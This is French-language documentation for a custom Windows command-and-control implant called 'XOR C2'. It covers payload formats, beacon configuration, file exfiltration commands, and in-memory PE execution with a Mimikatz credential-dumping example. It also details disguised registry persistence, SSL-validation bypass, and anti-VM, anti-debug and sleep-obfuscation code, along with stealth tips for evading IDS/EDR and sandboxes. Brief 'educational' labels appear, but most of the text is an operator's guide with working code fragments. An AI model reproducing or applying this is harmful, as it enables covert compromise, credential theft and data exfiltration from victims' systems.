






# XOR C2 - Documentation Agent

## Vue d'ensemble

L'agent XOR est un implant Windows écrit en C++ conçu pour la communication furtive avec le serveur C2. Il supporte plusieurs formats de payload et offre des capacités avancées d'exécution de commandes.

## Architecture de l'Agent


## Types de Payload

### 1. Windows EXE
Exécutable Windows standard (.exe)

| Caractéristique | Valeur |
|-----------------|--------|
| Format | PE64 (x86_64) |
| Compilateur | x86_64-w64-mingw32-g++ |
| Taille moyenne | ~100 KB |
| Persistance | Automatique (Registry Run Key) |

### 2. Windows DLL
Bibliothèque dynamique pour injection

| Caractéristique | Valeur |
|-----------------|--------|
| Format | PE64 DLL |
| Point d'entrée | DllMain |
| Usage | Injection réflective, side-loading |
| Export | `agent_run()` |

### 3. Shellcode
Code binaire brut pour injection mémoire

| Caractéristique | Valeur |
|-----------------|--------|
| Format | Raw binary |
| Usage | Process injection, BOF |
| Génération | Via ReflectiveLoader (DLL → Shellcode) |

### 4. Windows Service
Agent en tant que service Windows

| Caractéristique | Valeur |
|-----------------|--------|
| Format | PE64 EXE |
| Nom du service | `XorService` |
| Nom affiché | `Xor Service` |
| Installation | `agent.exe install` |
| Désinstallation | `agent.exe uninstall` |

---

## Configuration de l'Agent

### Paramètres de génération

Lors de la génération via `/api/generate`, les paramètres suivants sont injectés dans `config.h` :


### Options de configuration

#### host
**Type** : `string`  
**Description** : Adresse IP ou domaine du serveur C2  
**Exemple** : `"192.168.1.10"` ou `"c2.example.com"`

```cpp
constexpr char XOR_SERVERS[] = "192.168.1.10";
```

---

#### port
**Type** : `integer`  
**Description** : Port du listener HTTP  
**Exemple** : `80`, `443`, `8080`

```cpp
constexpr int XOR_PORT = 80;
```

---

#### uri_path
**Type** : `string`  
**Description** : Chemin URI pour les communications beacon  
**Exemple** : `"/api/update"`, `"/cdn/check"`, `"/static/js/main.js"`

```cpp
constexpr char RESULTS_PATH[] = "/api/update";
```

**Conseil** : Utilisez des chemins qui ressemblent à du trafic légitime.

---

#### user_agent
**Type** : `string`  
**Description** : Header User-Agent pour les requêtes HTTP  
**Important** : Doit correspondre exactement à la configuration du listener

```cpp
constexpr char USER_AGENT[] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36";
```

**Exemples courants** :
- Chrome : `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36`
- Firefox : `Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0`
- Edge : `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0`

---

#### xor_key
**Type** : `string`  
**Description** : Clé de chiffrement XOR pour les communications  
**Important** : Doit correspondre exactement à la clé du listener

```cpp
constexpr char XOR_KEY[] = "mysupersecretkey";
```

**Recommandations** :
- Minimum 16 caractères
- Mélange de lettres, chiffres, symboles
- Unique par opération

---

#### beacon_interval
**Type** : `integer` (secondes)  
**Description** : Intervalle entre les check-ins  
**Défaut** : `60`

```cpp
constexpr int BEACON_INTERVAL = 60;
```

**Stratégies** :
| Scénario | Intervalle recommandé |
|----------|----------------------|
| Test/Debug | 5-10 secondes |
| Opération active | 30-60 secondes |
| Persistance longue | 300-3600 secondes |
| Mode furtif | 1800+ secondes |

---

#### anti_vm
**Type** : `boolean`  
**Description** : Active les vérifications anti-virtualisation  
**Défaut** : `false`

```cpp
constexpr bool ANTI_VM_ENABLED = true;
```

**7 méthodes de détection** :

| Méthode | Description | Critère de détection |
|---------|-------------|---------------------|
| Hypervisor Bit | CPUID bit 31 de ECX | Bit activé = VM |
| CPU ID | Vérifie le vendor ID | != "AuthenticAMD" ou "GenuineIntel" |
| CPU Brand String | Analyse le nom du CPU | Contient "virtual", "qemu", "vmware", "vbox", "hyper-v" |
| Screen Resolution | Taille de l'écran | < 1280x720 ou > 3840x2160 |
| Memory Amount | RAM totale | < 2 Go |
| CPU Core Count | Nombre de cœurs | = 1 cœur |
| Disk Space | Espace disque C:\ | < 20 Go |

**Seuil de détection** : L'agent s'arrête si ≥ 1 détection est positive.

---

#### anti_debug
**Type** : `boolean`  
**Description** : Active les vérifications anti-débogage  
**Défaut** : `false`

```cpp
constexpr bool ANTI_DEBUG_ENABLED = true;
```

**Méthodes de détection implémentées** :

| Méthode | Description | Détail technique |
|---------|-------------|-------------------|
| IsDebuggerPresent | API Windows standard | Vérifie la flag du kernel |
| PEB BeingDebugged | Lecture directe du PEB | Accès au champ `BeingDebugged` à 0x60 (x64) ou 0x30 (x86) |

**Architecture spécifique** :
- **x86_64** : Lecture via `__readgsqword(0x60)` pour accéder au PEB
- **x86** : Lecture via `__readfsdword(0x30)` pour accéder au PEB

**Comportement** :


**Cas d'usage éducatif** :
- Démonstration de techniques anti-forensics
- Illustration des mécanismes de protection dans les malwares
- Étude du PEB (Process Environment Block) en sécurité Windows

---

#### sleep_obfuscation
**Type** : `boolean`  
**Description** : Active l'obfuscation des pauses (sleep) pour masquer le beacon interval  
**Défaut** : `false`

```cpp
constexpr bool SLEEP_OBFUSCATION_ENABLED = true;
```

**Types d'obfuscation disponibles** :

1. **Sleep Obfusqué Simple** - Utilise les thread pools Windows
   ```cpp
   obfuscated_sleep(DWORD milliseconds);
   ```
   - Remplace `Sleep()` classique par `CreateThreadpoolTimer()`
   - Évite les breakpoints faciles sur `Sleep()`
   - Moins détectable par analyse dynamique

2. **Sleep avec Jitter** - Ajoute une variabilité au beacon interval
   ```cpp
   obfuscated_sleep_with_jitter(DWORD baseMilliseconds, FLOAT jitterPercent);
   ```
   - Applique une variation aléatoire (±20% par défaut)
   - Exemple : `SleepWithJitter(300000, 0.2f)` = 240-360 secondes
   - Rend le trafic moins prévisible pour l'IDS/IPS

3. **Sleep avec Chiffrement Mémoire** - Chiffre les données sensibles pendant le sleep
   ```cpp
   SleepWithEncryption(DWORD milliseconds, const std::vector<std::pair<PVOID, SIZE_T>>& regions);
   ```
   - Chiffre les régions mémoire spécifiées avant le sleep
   - Déchiffre automatiquement après le réveil
   - Protège contre les memory dumps lors du sleep
   - Clé XOR 256-bit régénérée pour chaque session

**Architecture interne** :



**Avantages sur Sleep() classique** :

| Aspect | Sleep() | Obfuscated Sleep |
|--------|---------|------------------|
| Breakpoint facile | Oui | Non (thread pool) |
| Détection trafic | Régulier/prévisible | Avec jitter: variable |
| Mémoire non protégée | Lisible dump | Chiffrée (avec encryption) |
| Compatibilité | 100% | 100% |
| Performance | Native | +10-15% overhead |

**Configuration complète dans config.h** :

```cpp
constexpr bool ANTI_DEBUG_ENABLED = true;
constexpr bool SLEEP_OBFUSCATION_ENABLED = true;
constexpr FLOAT JITTER_PERCENT = 0.15f;  // ±15% de variation
```

**Exemple d'utilisation dans le cycle beacon** :

```cpp
// Au démarrage
initialize_sleep_obfuscation();
anti_debug_check();

// Boucle beacon
while (true) {
    // Check-in serveur
    beacon();
    
    // Sleep obfusqué avec jitter
    obfuscated_sleep_with_jitter(BEACON_INTERVAL, JITTER_PERCENT);
}
```

---

#### use_https
**Type** : `boolean`  
**Description** : Force l'utilisation de HTTPS au lieu de HTTP  
**Défaut** : `false`

```cpp
constexpr bool USE_HTTPS = true;
```

**Note** : L'agent bypass automatiquement la validation des certificats SSL (self-signed supportés).


---

#### headers
**Type** : `array of [key, value]`  
**Description** : Headers HTTP personnalisés  
**Exemple** : `[["Accept", "application/json"], ["X-Custom", "value"]]`

```cpp
constexpr char HEADER[] = "Accept: application/json\r\nX-Requested-With: XMLHttpRequest";
```

**Headers utiles pour la furtivité** :
```json
[
  ["Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"],
  ["Accept-Language", "en-US,en;q=0.5"],
  ["Accept-Encoding", "gzip, deflate"],
  ["Connection", "keep-alive"],
  ["Cache-Control", "no-cache"]
]
```

---

## Cycle de vie de l'Agent



### 1. Initialisation
- Chargement de la configuration
- Initialisation des modules réseau
- Initialisation du pool de threads (pour sleep obfuscation)

### 2. Vérifications anti-détection
- **Anti-VM** (si `ANTI_VM_ENABLED = true`)
  - 7 méthodes de détection
  - Termine silencieusement si VM détectée
  
- **Anti-Debug** (si `ANTI_DEBUG_ENABLED = true`)
  - Vérification `IsDebuggerPresent()`
  - Vérification du PEB (BeingDebugged flag)
  - Termine silencieusement si debugger détecté

### 3. Préparation sleep obfuscation
- Initialisation du `SleepObfuscator` (si `SLEEP_OBFUSCATION_ENABLED = true`)
- Génération clé XOR 256-bit pour chiffrement mémoire
- Création du thread pool Windows

### 4. Collecte d'informations
L'agent collecte automatiquement :
- **hostname** : Nom de la machine
- **username** : Utilisateur connecté (DOMAIN\user)
- **ip_address** : Adresse IP
- **process_name** : Nom du processus hôte
- **os** : Version Windows

### 5. Installation de la persistance
- **Persistance automatique** (MITRE T1547.001)
- Copie vers `%APPDATA%\Microsoft\Security\SecurityHealthService.exe`
- Création clé Registry Run (user-level, pas admin requis)
- Skippée si déjà installée

### 6. Beacon (Check-in)
Communication régulière avec le serveur :
1. Envoi des informations système
2. Réception des commandes en attente
3. Exécution des commandes
4. Soumission des résultats
5. Sleep obfusqué avec jitter pendant `beacon_interval`

**Détails du Sleep** :
- Si jitter activé : `base_interval * (1 ± jitter_percent)`
- Utilise `CreateThreadpoolTimer()` au lieu de `Sleep()`
- Optionnellement chiffre les régions mémoire sensibles

---

## Commandes Supportées

### Shell Command
Exécution de commandes système via cmd.exe

**Format côté opérateur** :
```
whoami /all
dir C:\Users
ipconfig /all
```

**Format interne** :
```
'cmd':'whoami /all'
```

**Flux d'exécution** :


---

### Download (Exfiltration)
Télécharge un fichier depuis la cible vers le serveur

**Format côté opérateur** :
```
/download C:\Users\admin\Documents\secret.pdf
```

**Format interne** :
```
'download':'C:\Users\admin\Documents\secret.pdf'
```

**Flux d'exécution** :


**Résultat** :
- Type : `file`
- Output : JSON encodé Base64 contenant `{filename, content}`
- Fichier sauvegardé dans `downloads/`

---

### Upload (Infiltration)
Envoie un fichier depuis l'opérateur vers la cible

**Format côté opérateur** :
```
/upload /home/operator/payload.exe
```

**Format interne** :
```
'upload':'base64_encoded_json'
```

Où le JSON contient :
```json
{
  "filename": "payload.exe",
  "content": "TVqQAAMAAAAEAAAA..."
}
```

**Flux d'exécution** :


**Destination sur la cible** : Répertoire courant de l'agent

---

### PE-Exec (Exécution en mémoire)
Exécute un PE (Portable Executable) directement en mémoire sans écrire sur disque

**Format côté opérateur** :
```
/pe-exec /tools/mimikatz.exe sekurlsa::logonpasswords
```

**Flux d'exécution** :


**Processus de chargement PE** :


**Limitations** :
- PE doit être 64-bit si l'agent est 64-bit
- Certains PE système (whoami.exe, etc.) peuvent échouer car ils dépendent de ressources
- PE avec anti-tampering peuvent détecter le chargement réflectif

**Recommandations** :
- Tester les PE avec des outils simples d'abord
- Préférer des PE compilés spécifiquement pour l'exécution réflective
- Les outils comme Mimikatz, Rubeus fonctionnent généralement bien

---

## Persistance Automatique (MITRE T1547.001)

L'agent installe automatiquement une persistance au premier lancement via la technique **Registry Run Keys** (MITRE ATT&CK T1547.001).

### Mécanisme


### Détails techniques

| Élément | Valeur |
|---------|--------|
| Clé Registry | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` |
| Nom de la valeur | `WindowsSecurityHealth` |
| Emplacement EXE | `%APPDATA%\Microsoft\Security\SecurityHealthService.exe` |
| Privilèges requis | Aucun (HKCU = user-level) |
| Attributs fichier | Hidden, System |

### Comportement

1. **Premier lancement** :
   - Vérifie si la persistance existe déjà
   - Copie l'exécutable vers `%APPDATA%\Microsoft\Security\`
   - Crée la clé registry pointant vers l'exécutable copié
   - Marque les fichiers comme cachés

2. **Lancements suivants** :
   - Détecte que la persistance est déjà en place
   - Continue l'exécution normale

3. **Après redémarrage** :
   - Windows exécute automatiquement l'agent via la clé Run
   - L'agent démarre depuis l'emplacement persistant

### Fichiers concernés

| Fichier | Rôle |
|---------|------|
| `persistence.h` | Déclarations des fonctions |
| `persistence.cpp` | Implémentation de la persistance |
| `main_exe.cpp` | Appel automatique au démarrage |
| `main_dll.cpp` | Appel automatique au démarrage |

---

## Communication Chiffrée

### Protocole de chiffrement


### Support HTTPS

L'agent supporte nativement HTTPS avec bypass de la validation des certificats :

```cpp
// Flags SSL ignorés
SECURITY_FLAG_IGNORE_UNKNOWN_CA         // CA inconnue
SECURITY_FLAG_IGNORE_CERT_CN_INVALID    // CN invalide
SECURITY_FLAG_IGNORE_CERT_DATE_INVALID  // Date expirée
SECURITY_FLAG_IGNORE_REVOCATION         // Révocation
```

**Retry Logic** : 3 tentatives en cas d'échec SSL/TLS.

**Timeouts** : 30 secondes (connexion, envoi, réception).

### Implémentation XOR

```cpp
std::string xor_encrypt(const std::string& data, const std::string& key) {
    std::string result = data;
    for (size_t i = 0; i < data.size(); i++) {
        result[i] = data[i] ^ key[i % key.length()];
    }
    return result;
}
```

**Note** : XOR est symétrique - le même code chiffre et déchiffre.

---

## Structure des Fichiers Agent

```
agent/
├── http/
│   ├── main_exe.cpp          # Point d'entrée EXE (standalone)
│   ├── main_dll.cpp          # Point d'entrée DLL (injection)
│   ├── main_svc.cpp          # Point d'entrée Service Windows
│   ├── config.h              # Configuration (généré dynamiquement)
│   ├── http_client.cpp       # Communication HTTP/HTTPS (WinINet)
│   ├── http_client.h
│   ├── crypt.cpp             # Chiffrement XOR
│   ├── crypt.h
│   ├── task.cpp              # Gestionnaire de tâches (cmd, download, upload, pe-exec)
│   ├── task.h
│   ├── pe-exec.cpp           # Exécution PE en mémoire (reflective loading)
│   ├── pe-exec.h
│   ├── persistence.cpp       # Persistance automatique (T1547.001)
│   ├── persistence.h
│   ├── base64.cpp            # Encodage Base64
│   ├── base64.h
│   ├── file_utils.cpp        # Opérations fichiers (read/write binaire)
│   ├── file_utils.h
│   ├── system_utils.cpp      # Infos système (hostname, IP, etc.)
│   ├── system_utils.h
│   ├── vm_detection.cpp      # Détection VM (7 méthodes)
│   ├── debug_detection.cpp   # ⭐ Détection débogage (IsDebuggerPresent + PEB)
│   ├── sleep_obfuscation.cpp # ⭐ Obfuscation sleep avec jitter + chiffrement mémoire
│   ├── sleep_obfuscation.h
│   ├── json.hpp              # Parser JSON (nlohmann)
│   └── ReflectiveLoader/     # Génération shellcode
│       └── DllLoaderShellcode/
│           ├── shellcodize.py    # Convertisseur DLL → Shellcode
│           └── Loader/           # Code du loader réflectif
```

**Nouveautés** (⭐) :
- `debug_detection.cpp` : Implémente deux méthodes anti-debug
- `sleep_obfuscation.cpp/h` : Classe `SleepObfuscator` avec 3 stratégies de sleep

---

## Exemple de Configuration Complète

### Requête de génération

```json
{
  "listener_name": "http_covert",
  "payload_type": "exe",
  "config": {
    "host": "cdn.legitimate-domain.com",
    "port": 443,
    "uri_path": "/api/v2/telemetry/collect",
    "user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36",
    "xor_key": "Kj#9xL!mP2@nQw5$vR8&",
    "beacon_interval": 300,
    "anti_vm": true,
    "headers": [
      ["Accept", "application/json, text/plain, */*"],
      ["Accept-Language", "en-US,en;q=0.9"],
      ["Accept-Encoding", "gzip, deflate, br"],
      ["Connection", "keep-alive"],
      ["Cache-Control", "no-cache"],
      ["X-Requested-With", "XMLHttpRequest"]
    ]
  }
}
```

### config.h généré

```cpp
#pragma once

constexpr char XOR_KEY[] = "Kj#9xL!mP2@nQw5$vR8&";
constexpr char XOR_SERVERS[] = "cdn.legitimate-domain.com";
constexpr int XOR_PORT = 443;
constexpr char USER_AGENT[] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36";
constexpr char HEADER[] = "Accept: application/json, text/plain, */*\r\nAccept-Language: en-US,en;q=0.9\r\nAccept-Encoding: gzip, deflate, br\r\nConnection: keep-alive\r\nCache-Control: no-cache\r\nX-Requested-With: XMLHttpRequest";
constexpr char RESULTS_PATH[] = "/api/v2/telemetry/collect";
constexpr int BEACON_INTERVAL = 300;
constexpr bool ANTI_VM_ENABLED = true;
constexpr bool USE_HTTPS = true;
```

---

## Anti-Détection Avancée

### Anti-Debug (Détection de débogage)

L'agent implémente deux méthodes complémentaires pour détecter un debugger actif :

#### Méthode 1 : IsDebuggerPresent()

```cpp
bool anti_debug_basic() {
    if (IsDebuggerPresent()) {
        return true;  // Debugger détecté
    }
    return false;
}
```

**Comment ça marche** :
- API Windows standard fournie par `kernel32.dll`
- Vérifie un flag interne du kernel
- Retour très rapide (pas de I/O)

**Limitations** :
- Peut être contournée par API hooking
- Des debuggers avancés peuvent spoofer cette API

#### Méthode 2 : Vérification du PEB

```cpp
bool being_debugged_peb() {
#if defined(_M_X64) || defined(__x86_64__)
    PPEB peb = (PPEB)__readgsqword(0x60);  // x86_64
#elif defined(_M_IX86) || defined(__i386__)
    PPEB peb = (PPEB)__readfsdword(0x30);  // x86
#endif
    return peb->BeingDebugged;
}
```

**Comment ça marche** :
- Accès direct au **PEB** (Process Environment Block)
- Le PEB est une structure interne Windows contenant infos du processus
- x86_64 : GS:0x60 pointe vers le PEB
- x86 : FS:0x30 pointe vers le PEB
- Champ `BeingDebugged` (offset 0x2 dans le PEB) indique si debugger actif

**Architecture** :



**Avantages** :
- Lecture directe mémoire (bypass potentiel de certains hooks)
- Plus fiable que `IsDebuggerPresent()`
- Architecture-aware (32/64 bit)

**Cas de détection** :
- WinDbg, x64dbg, OllyDbg, etc.
- Débogage user-mode
- Certains reverse engineering tools

#### Combinaison des deux méthodes

```cpp
void is_debugged() {
    int detection_method = 0;
    if (anti_debug_basic())     detection_method++;
    if (being_debugged_peb())   detection_method++;
    
    // Si au moins une méthode détecte un debugger
    if (detection_method > 0) {
        // Terminer silencieusement
        ExitProcess(0);
    }
}
```

**Seuil de détection** :
- Agent s'arrête si ≥ 1 méthode détecte un debugger
- Double protection : difficile de contourner les deux

**Cas d'usage éducatif** :
- Étude de structures Windows (PEB)
- Apprentissage des mécanismes anti-forensics
- Compréhension des protections malware
- Analyse du comportement sous débogage

---

### Sleep Obfuscation (Obfuscation du beacon)

L'agent remplace les appels `Sleep()` classiques par une implémentation plus sophistiquée utilisant les thread pools Windows.

#### Motivation

```
Problème classique :
    Agent beacon toutes les 5 minutes ← Très facile à détecter
    - IDS/IPS peut créer une signature
    - Trafic réseau prévisible
    - Breakpoint trivial sur Sleep()

Soltion avec Sleep Obfuscation :
    Agent beacon avec jitter (4:30 - 5:30) ← Trafic variable
    - Moins de certitude pour signature
    - Trafic moins prévisible
    - Breakpoint sur Sleep() ne fonctionne pas
```

#### Implémentation Technical

**Classe SleepObfuscator** :
```cpp
class SleepObfuscator {
private:
    PTP_POOL threadPool;
    PTP_CLEANUP_GROUP cleanupGroup;
    TP_CALLBACK_ENVIRON callbackEnviron;
    std::vector<BYTE> encryptionKey;
    BOOL initialized;

public:
    BOOL Initialize();
    BOOL Sleep(DWORD milliseconds);
    BOOL SleepWithJitter(DWORD baseMilliseconds, FLOAT jitterPercent);
    BOOL SleepWithEncryption(DWORD milliseconds, 
                             const std::vector<std::pair<PVOID, SIZE_T>>& regions);
};
```

#### Méthodes disponibles

**1. Sleep Obfusqué Simple**

```cpp
obfuscated_sleep(5000);  // Sleep de 5 secondes
```



**Avantage** :
- `Sleep()` utilise des mécanismes internes différents
- Les breakpoints sur `Sleep()` ne s'activent pas
- Moins d'analyse dynamique possible

---

**2. Sleep avec Jitter (Variable interval)**

```cpp
// Base 5 minutes, variation ±15%
obfuscated_sleep_with_jitter(300000, 0.15f);
// Résultat : 255000 à 345000 ms (4:15 - 5:45)
```

**Calcul du jitter** :
```cpp
FLOAT jitter = random(-jitterPercent, +jitterPercent);
DWORD final_ms = baseMilliseconds * (1.0f + jitter);
```

**Distribution** (exemple avec 300000ms, 20% jitter) :
```
240000ms (4:00) ████████░░░░░░░░░░░░
260000ms (4:20) ████████████░░░░░░░░
280000ms (4:40) ████████████████░░░░
300000ms (5:00) ████████████████████ ← Mode (espérance)
320000ms (5:20) ████████████████░░░░
340000ms (5:40) ████████████░░░░░░░░
360000ms (6:00) ████████░░░░░░░░░░░░
```

**Impact** :
- Signature trafic impossible (timing variable)
- IDS/IPS doit chercher d'autres patterns
- Ressemble plus à du trafic "humain"

---

**3. Sleep avec Chiffrement Mémoire**

```cpp
// Chiffrer certaines régions pendant le sleep
std::vector<std::pair<PVOID, SIZE_T>> regions;
regions.push_back({secret_data, 256});      // Données sensibles
regions.push_back({credential_buffer, 512}); // Credentials

obfuscator.SleepWithEncryption(300000, regions);
```

**Processus** :



**Clé XOR 256-bit** :
```cpp
void GenerateEncryptionKey() {
    encryptionKey.resize(32);  // 256 bits
    for (auto& byte : encryptionKey) {
        byte = random(0, 255);  // Aléatoire
    }
}
```

**Avantage** :
- Protection contre les **memory dumps** pendant le sleep
- Si on dumpe la RAM à 3:00, les données sont chiffrées
- À 3:05 quand l'agent se réveille, déchiffrement automatique

**Limitation** :
- Surcharge mémoire et CPU (±10-15%)
- Performance acceptable pour la plupart des cas

---

#### Configuration recommandée

```cpp
// Pour environnement hostile (EDR, IDS/IPS)
constexpr bool ANTI_DEBUG_ENABLED = true;
constexpr bool SLEEP_OBFUSCATION_ENABLED = true;
constexpr FLOAT JITTER_PERCENT = 0.25f;     // ±25% variation
constexpr int BEACON_INTERVAL = 600000;     // 10 minutes base

// Pour POC/test
constexpr bool ANTI_DEBUG_ENABLED = false;
constexpr bool SLEEP_OBFUSCATION_ENABLED = true;
constexpr FLOAT JITTER_PERCENT = 0.0f;      // Pas de jitter
constexpr int BEACON_INTERVAL = 5000;       // 5 secondes
```

#### Intégration dans le cycle beacon

```cpp
int main() {
    // 1. Initialisation
    initialize_sleep_obfuscation();
    
    // 2. Anti-detection checks
    if (anti_debug_basic() || being_debugged_peb()) {
        ExitProcess(0);
    }
    
    // 3. Boucle principale
    while (true) {
        // Check-in auprès du serveur
        beacon_checkin();
        
        // Récupération et exécution commandes
        execute_pending_commands();
        
        // Sleep obfusqué avec jitter
        obfuscated_sleep_with_jitter(BEACON_INTERVAL, JITTER_PERCENT);
    }
    
    return 0;
}
```

---

## Bonnes Pratiques

### Furtivité

1. **Beacon Interval** : Utilisez des intervalles longs (5-15 min) pour éviter la détection par analyse de trafic

2. **User-Agent** : Utilisez un User-Agent correspondant aux navigateurs présents sur le réseau cible

3. **URI Path** : Choisissez des chemins qui ressemblent à du trafic légitime :
   - `/api/v1/analytics`
   - `/cdn/js/bundle.min.js`
   - `/static/images/pixel.gif`

4. **Headers HTTP** : Mimez les headers d'applications légitimes

5. **Anti-VM** : Activez pour éviter l'analyse en sandbox

### Opérationnel

1. **Testez vos PE** avec des outils simples avant d'utiliser des outils complexes

2. **Vérifiez l'architecture** : Agent 64-bit = PE 64-bit requis

3. **Backup** : Gardez une copie des agents générés

4. **Rotation des clés** : Changez la clé XOR entre les opérations

---

## Dépannage

### L'agent ne se connecte pas
- Vérifiez que le listener est actif
- Vérifiez que le User-Agent correspond exactement
- Vérifiez que la clé XOR est identique
- Testez la connectivité réseau

### PE-Exec échoue
- Vérifiez l'architecture (32/64 bit)
- Testez avec un PE simple (hello world)
- Certains PE système dépendent de ressources non disponibles

### Anti-VM bloque l'exécution
- Désactivez anti_vm pour les tests en VM
